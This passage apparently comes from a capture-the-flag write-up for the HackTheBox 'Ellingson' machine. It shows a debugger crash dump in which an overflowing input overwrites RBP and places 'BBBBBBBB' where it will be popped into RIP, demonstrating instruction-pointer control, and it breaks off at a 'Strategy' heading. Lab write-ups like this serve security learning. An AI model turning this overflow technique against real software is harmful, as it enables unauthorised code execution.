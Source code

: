 When I enter that string at the prompt, it crashes here:

```

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7f988c0 --> 0x0
RSI: 0x4059c0 ("access denied.\nssword: ")
RDI: 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdf68 ("BBBBBBBB")
RIP: 0x401618 (<auth+261>:      ret)
R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
R10: 0xfffffffffffff638
R11: 0x246
R12: 0x401170 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe060 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40160d <auth+250>: call   0x401050 <puts@plt>
   0x401612 <auth+255>: mov    eax,0x0
   0x401617 <auth+260>: leave  
=> 0x401618 <auth+261>: ret    
   0x401619 <main>:     push   rbp
   0x40161a <main+1>:   mov    rbp,rsp
   0x40161d <main+4>:   sub    rsp,0x10
   0x401621 <main+8>:   mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf68 ("BBBBBBBB")
0008| 0x7fffffffdf70 --> 0x7fffffffe000 --> 0x0
0016| 0x7fffffffdf78 --> 0x0
0024| 0x7fffffffdf80 --> 0x401740 (<__libc_csu_init>:   push   r15)
0032| 0x7fffffffdf88 --> 0x7ffff7dff09b (<__libc_start_main+235>:       mov    edi,eax)
0040| 0x7fffffffdf90 --> 0x0
0048| 0x7fffffffdf98 --> 0x7fffffffe068 --> 0x7fffffffe381 ("/media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage")                                                                                                                     
0056| 0x7fffffffdfa0 --> 0x100040000
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401618 in auth ()

```

I can see 8 `B`s waiting to be moved into RIP.

### Strategy
